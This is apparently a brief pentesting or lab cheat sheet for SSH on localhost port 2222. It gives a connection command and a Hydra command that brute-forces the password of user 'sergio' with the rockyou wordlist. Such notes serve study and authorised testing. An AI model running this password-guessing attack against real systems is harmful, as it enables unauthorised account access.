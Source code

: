 Typical connection
````bash
ssh sergio@127.0.0.1 -p 2222
````

## BruteForce
### Hydra
````bash
hydra -l sergio -P /usr/share/wordlists/rockyou.txt ssh://127.0.0.1 -s 2
222 -t 4
````

``-s`` --> Port
``-t`` --> Threads